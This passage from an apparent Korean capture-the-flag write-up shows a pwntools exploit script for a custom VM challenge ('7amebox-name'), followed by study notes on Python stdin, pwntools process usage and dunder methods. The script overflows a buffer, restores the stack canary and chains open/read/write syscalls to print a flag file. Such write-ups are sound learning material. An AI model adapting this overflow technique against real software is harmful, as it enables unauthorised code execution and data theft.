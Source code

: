 ```
pay="A"*57
pay+=write_tri(canary)
pay+=write_tri(stack)
pay+=write_tri(ret)

p.send(pay)
p.recvuntil("bye\n")

pay2="flag\x00"
pay2+=mov_reg_value(1,stack-60)
pay2+=mov_reg_value(0,1)
pay2+=syscall()

pay2+=mov_reg_value(1,2)
pay2+=mov_reg_value(2,buf)
pay2+=mov_reg_value(3,0x100)
pay2+=mov_reg_value(0,3)
pay2+=syscall()

pay2+=mov_reg_value(1,1)
pay2+=mov_reg_value(0,2)
pay2+=syscall()

pay2+="A"*(57-len(pay2))

pay2+=write_tri(canary)
pay2+="AAA"
pay2+=write_tri(stack-55)

p.send(pay2)
p.recvuntil("bye\n")

print p.recvline()
```

# 알게 된 것
***
1. sys.stdin.readline(size) 는 size만큼 or "\n"까지 입력을 받는다.

2.  ```python -u```는 stdout과 stderr의 버퍼(버퍼링)를 없애는 옵션이다. 

3. pwntools의 process에서 리눅스 명령어를 사용하려면 
```process('echo hello 1>&2', shell=True)```나 ```process(['python','-u','/home/sungyun/round2/7amebox-name/vm_name.py'])```와 같이 사용해야 한다.

4. __special_method__에서 __??__는 스페셜 변수나 메서드에 사용되는 컨벤션이다. __getitem__은 var['key']와 같이 사용했을 때 불리는 메소드이다.

참조 :파이썬 언더스코어(_)에 대하여 <https://mingrammer.com/underscore-in-python/>


